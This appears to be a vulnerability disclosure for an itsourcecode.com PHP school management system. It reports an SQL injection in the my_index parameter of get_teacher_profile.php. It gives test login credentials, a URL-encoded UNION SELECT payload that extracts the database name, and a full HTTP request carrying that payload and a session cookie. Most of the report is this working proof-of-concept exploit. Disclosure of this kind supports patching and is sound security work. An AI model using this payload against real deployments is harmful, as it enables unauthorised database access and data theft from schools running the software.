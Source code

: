 # Advanced School Management System v1.0 by itsourcecode.com has SQL injection

**Login account:** 

​		username：suarez081119@gmail.com

​		password：12345

**vendors:** https://itsourcecode.com/free-projects/php-project/advanced-school-management-system-in-php-with-source-code/

**Vulnerability url:** /school/model/get_teacher_profile.php?my_index=

**Vulnerability location:** /school/model/get_teacher_profile.php

**[+] Payload:** /school/model/get_teacher_profile.php?my_index=1'%20union%20select%20database()%2c2%2c3%2c4%2c5%2c6%2c7%2c8%2c9%2c10%20limit%201%2c1%23

​	Leak place : my_index

**Current database name:** std_db, length is 6

**Request package**：get teacher profile information

```
GET /school/model/get_teacher_profile.php?my_index=1'%20union%20select%20database()%2c2%2c3%2c4%2c5%2c6%2c7%2c8%2c9%2c10%20limit%201%2c1%23 HTTP/1.1
Host: 10.12.171.4
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/102.0.0.0 Safari/537.36
Accept: */*
Referer: http://10.12.171.4/school/view/teacher_profile2.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: PHPSESSID=cp26rmntdlbhle8qiofns95sv7
Connection: close
```

**SQL injection result**：line 13 database name is displayed.

![sql_injection2](https://github.com/Renrao/bug_report/blob/master/blob/main/vendors/itsourcecode.com/advanced-school-management-system/images/sql_injection2.png)